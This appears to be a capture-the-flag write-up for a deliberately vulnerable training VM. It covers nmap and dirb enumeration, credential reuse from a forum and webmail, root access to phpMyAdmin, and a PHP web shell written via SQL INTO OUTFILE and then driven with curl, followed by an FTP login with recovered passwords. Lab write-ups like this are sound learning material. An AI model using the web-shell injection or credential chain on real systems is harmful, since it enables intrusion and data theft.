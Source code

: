 # Writeup1:
# Part1: Find something

![Iso launched](/img/begin_vm.png)

I guess we need to find IP of this Vm, at moment it was the unique way to continue
But with command **ifconfig**, the Vm isn't on network..

## Explore to find, but what ?
- We launched the iso on linux under Virtualbox, firstly we need to create a Host Network Manager to acces its IP
- After set up Network, go to setting about VM `tab:Network` and change `Attached to:`->`NAT`to`Host-only Adapter`
    * Name of your Host Network will be appear below, fine now **ifconfig** works as expected

```c
vboxnet*: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
            inet 192.168.56.1  netmask 255.255.255.0  broadcast 192.168.56.255
        inet6 fe80::800:27ff:fe00:0  prefixlen 64  scopeid 0x20<link>
        ether 0a:00:27:00:00:00  txqueuelen 1000  (Ethernet)
        ...
```

- To find IP, use nmap without flag to find it quickly, then launch a new nmap scan with some flags

```cs
└─$ nmap 192.168.56.1/24
...
Nmap scan report for 192.168.56.3
...

└─$ sudo nmap -sV --script=http-enum 192.168.56.3
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-08 16:40 EDT
Nmap scan report for 192.168.56.3
Host is up (0.00090s latency).
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.0.8 or later
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
143/tcp open  imap     Dovecot imapd
443/tcp open  ssl/http Apache httpd 2.2.22
|_http-server-header: Apache/2.2.22 (Ubuntu)
| http-enum: 
|   /forum/: Forum
|   /phpmyadmin/: phpMyAdmin
|   /webmail/src/login.php: squirrelmail version 1.4.22
|_  /webmail/images/sm_logo.png: SquirrelMail
993/tcp open  ssl/imap Dovecot imapd
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.45 seconds
```
* nmap scan reveals a WebServer Apache/2.2.22
    * 1 route on 80 port
    * 3 routes on 443port (forum, phpmyadmin, webmail)

* And with ***dirb*** it's more interesting !
```cs
└─$ dirb https://192.168.56.3 -R
...
GENERATED WORDS: 4612                                                          

---- Scanning URL: https://192.168.56.3/ ----
+ https://192.168.56.3/cgi-bin/ (CODE:403|SIZE:289)                                           
==> DIRECTORY: https://192.168.56.3/forum/                                                    
==> DIRECTORY: https://192.168.56.3/phpmyadmin/                                               
+ https://192.168.56.3/server-status (CODE:403|SIZE:294)                                      
==> DIRECTORY: https://192.168.56.3/webmail/                                                  

---- Entering directory: https://192.168.56.3/forum/ ----
(?) Do you want to scan this directory (y/n)? y                                                + https://192.168.56.3/forum/backup (CODE:403|SIZE:293)                                       
--> Testing: https://192.168.56.3/forum/backup-db                                             
+ https://192.168.56.3/forum/config (CODE:403|SIZE:293)                                       
==> DIRECTORY: https://192.168.56.3/forum/images/                                             
==> DIRECTORY: https://192.168.56.3/forum/includes/                                           
+ https://192.168.56.3/forum/index (CODE:200|SIZE:4935)                                       
+ https://192.168.56.3/forum/index.php (CODE:200|SIZE:4935)                                   
==> DIRECTORY: https://192.168.56.3/forum/js/                                                 
==> DIRECTORY: https://192.168.56.3/forum/lang/                                               
==> DIRECTORY: https://192.168.56.3/forum/modules/                                            
==> DIRECTORY: https://192.168.56.3/forum/templates_c/                                        
==> DIRECTORY: https://192.168.56.3/forum/themes/                                             
==> DIRECTORY: https://192.168.56.3/forum/update/
...
```

## Root, but not really

* On the *forum*, with 6 users (admin, lmerard, qudevide, thor, wandre and zaz)
* There is post `Probleme login ?` by `lmezard`, and we find this user `!q\]Ej?*5K5cy*AJ`
    * We can connect to the *forum* with this logs
    * And we find its mail *`laurie@borntosec.net `*, now we can try to connect in *webmail* route, that works!

* On *webmail*, there is mail send by `qudevide@mail.borntosec.net` on Subject `DB Access` which contains an access log `root/Fg-'kKXBj87E:aJ$`, probably for the DB(*phpmyadmin*)
    * That works, we are root of the database

* In `forum_db` struct `mlf2_userdata`, we find the all users found earlier, with their password hashed
    * And in `mysql` struct `user`, I guess these are the database admin profiles (Passwords seems to be hashed in SHA1, MySQL4.1/MySQL5)
    * Tried to decrypt them without success..

* Try to make a [reverse](https://en.wikipedia.org/wiki/Shell_shoveling)/[web](https://en.wikipedia.org/wiki/Web_shell) shell

* Let try to inject it, on phpmyadmin in `SQL` tab
```sql
SELECT "<?php system($_GET['cmd'] . '2>&1'); ?>" INTO OUTFILE '/var/www/forum/templates_c/webshell.php'
```
* That works
```bash
└─$ curl --insecure "https://192.168.56.3/forum/templates_c/webshell.php?cmd=pwd"
/var/www/forum/templates_c
```
* Finaly find new log at `/home/LOOKATME/password` -> `lmezard:G!@M6f4Eatau{sF"`, doubtless for ssh or ftp connect log

```bash
└─$ ftp lmezard@192.168.56.3
Connected to 192.168.56.3.
220 Welcome on this server
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

* We have 2 file into the ftp server
```bash
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
```